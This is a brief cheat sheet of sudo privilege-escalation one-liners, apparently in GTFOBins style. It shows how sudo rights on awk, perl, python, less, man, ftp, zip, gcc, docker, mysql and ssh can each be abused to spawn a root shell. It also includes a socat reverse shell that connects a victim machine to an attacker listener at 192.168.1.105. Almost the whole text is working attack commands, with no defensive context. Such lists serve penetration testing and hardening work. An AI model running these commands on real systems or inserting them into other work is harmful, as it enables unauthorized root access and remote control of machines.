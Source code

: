 Awk
```
sudo awk 'BEGIN {system("/bin/bash")}'
```

Perl
```
sudo perl -e 'exec "/bin/bash";'
```

Python
```
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```

Less
```
sudo less /etc/hosts - !bash
```

Man
```
sudo man man - !bash
```

ftp
```
sudo ftp - ! /bin/bash
```

socat
```
Attacker = socat file:`tty`,raw,echo=0 tcp-listen:1234
Victim = sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.105:1234
```

Zip
```
echo test > notes.txt
sudo zip test.zip notes.txt -T --unzip-command="sh -c /bin/bash"
```

gcc
```
sudo gcc -wrapper /bin/bash,-s .
```

Docker
```
sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

MySQL
```
sudo mysql -e '\! /bin/sh'
```

SSH
```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
